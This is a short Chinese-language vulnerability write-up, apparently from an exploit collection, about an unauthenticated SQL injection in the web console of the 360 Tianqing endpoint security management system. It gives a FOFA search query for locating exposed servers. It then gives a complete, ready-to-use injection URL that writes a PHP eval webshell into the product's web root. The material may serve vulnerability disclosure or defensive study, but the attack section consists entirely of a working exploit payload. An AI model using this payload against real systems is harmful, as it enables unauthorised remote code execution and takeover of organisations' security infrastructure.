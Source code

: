 ## 0x00 漏洞背景

        360天擎是一套终端安全管理系统，有客户端和Web端，漏洞出现在Web端，可以未授权访问的API，该API存在SQL注入漏洞，可导致直接写入Webshell
        
        FOFA语句 app="360天擎终端安全管理系统"
        
## 0x01 漏洞利用

        /api/dp/rptsvcsyncpoint?ccid=1';create table O(T TEXT);insert into O(T) values('<?php @eval($_POST[1]);?>');copy O(T) to 'C:\Program Files (x86)\360\skylar6\www\1.php';drop table O;--
